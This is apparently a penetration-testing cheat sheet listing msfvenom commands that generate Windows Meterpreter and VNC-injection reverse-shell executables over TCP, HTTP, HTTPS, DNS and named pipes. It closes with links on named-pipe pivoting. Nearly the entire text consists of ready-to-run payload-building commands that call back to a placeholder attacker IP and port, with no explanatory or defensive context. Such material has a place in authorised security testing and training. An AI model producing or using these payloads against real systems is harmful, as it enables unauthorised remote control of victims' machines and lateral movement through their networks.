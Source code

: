 # Reverse Shells

## Interactive Shells

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe

$ msfvenom -p windows/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe

$ msfvenom -p windows/meterpreter/reverse_https handlersslcert=/path/to/file.pem sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe

$ msfvenom -p windows/meterpreter/reverse_tcp_dns lhost=<dns_URL> lport=<PORT> -f exe met-x86.exe
```

Specify the compromised windows host with `pipehost`.

```
$ msfvenom -p windows/meterpreter/reverse_named_pipe pipehost=<compromised_computer_IP> pipename=<PIPENAME> -f exe -o met-x86.exe
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x64.exe

$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x64.exe

$ msfvenom -p windows/x64/meterpreter/reverse_https handlersslcert=/path/to/file.pem sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met_x86_64.exe
```

Specify the compromised windows host with `pipehost`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_named_pipe pipehost=<compromised_computer_IP> pipename=<PIPENAME> -f exe -o met-x64.exe
```

## VNC

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe

$ msfvenom -p windows/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe

$ msfvenom -p windows/x64/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe

$ msfvenom -p windows/x64/vncinject/reverse_https handlersslcert=/path/to/file.pem sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe
```

---
## References

### Metasploit

- [Metasploit Documentation: Pivoting in Metasploit](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)

### Bordergate

- [BorderGate: Lateral Movement With Named Pipes](https://www.bordergate.co.uk/lateral-movement-with-named-pipes/)

### Nagarro Security

- [Nagarro Security: SMB NamedPipe Pivoting Meterpreter](https://nagarrosecurity.com/blog/smb-named-pipe-pivoting-meterpreter)

### Peter Gombos

- [Peter Gombos: SMB Named Pipe Pivoting in Meterpreter](https://medium.com/@petergombos/smb-named-pipe-pivoting-in-meterpreter-462580fd41c5)